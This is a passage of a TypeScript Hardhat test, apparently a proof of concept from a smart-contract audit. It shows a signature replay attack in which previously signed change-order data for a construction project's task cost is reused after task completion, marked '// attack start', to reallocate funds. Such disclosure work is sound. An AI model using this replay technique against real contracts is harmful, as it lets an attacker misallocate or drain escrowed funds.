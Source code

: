 ```typescript
      const tx = await project.changeOrder(encodedData, signature);
      tx.wait();
      await expect(tx).to.emit(project, 'ChangeOrderSC');
    }
  });


  it('PoC change cost', async () => {
    const taskID = 1;
    let taskDetails = await project.getTask(taskID);
    const originalSC = taskDetails.subcontractor;
    const originalCost = taskCost; 
    const veryHighNewCost = taskCost * 10;
    console.log(taskDetails);
    // await (await project.inviteSC([taskID], [signers[2].address])).wait();

    const changeToNewData = {
      types: ['uint256', 'address', 'uint256', 'address'],
      values: [taskID, originalSC, veryHighNewCost, project.address],
    };
    const changeToNewSignedData = await signData(changeToNewData);

    await changeCost(changeToNewSignedData[0], changeToNewSignedData[1]);

    const changeBackToOldData = {
      types: ['uint256', 'address', 'uint256', 'address'],
      values: [taskID, originalSC, originalCost, project.address],
    };
    const changeBackToOldSignedData = await signData(changeBackToOldData);

    await changeCost(changeBackToOldSignedData[0], changeBackToOldSignedData[1]);
    taskDetails = await project.getTask(taskID);

    await expect(taskDetails.cost).to.be.equal(originalCost);

    const originalSCSigner = getSignerByAddress(signers, originalSC);
    await (await project.connect(originalSCSigner).acceptInviteSC([taskID])).wait();
    await project.allocateFunds();

    // for some reason if you don't do this you get 'Mock on the method is not initialized' error
    await mockDAIContract.mock.transfer
      .withArgs(originalSC, taskCost)
      .returns(true);
    await mockDAIContract.mock.transfer
      .withArgs(await homeFiContract.treasury(), taskCost / 1e3)
      .returns(true);


    const setCompleteData = {
      types: ['uint256', 'address'],
      values: [taskID, project.address],
    };
    let setCompleteSignedData = await signData(setCompleteData);
    let tx = await project.setComplete(setCompleteSignedData[0], setCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);


    // attack start
    await changeCost(changeToNewSignedData[0], changeToNewSignedData[1]);
    await changeCost(changeBackToOldSignedData[0], changeBackToOldSignedData[1]);

    await (await project.connect(originalSCSigner).acceptInviteSC([taskID])).wait();
    await project.allocateFunds();
```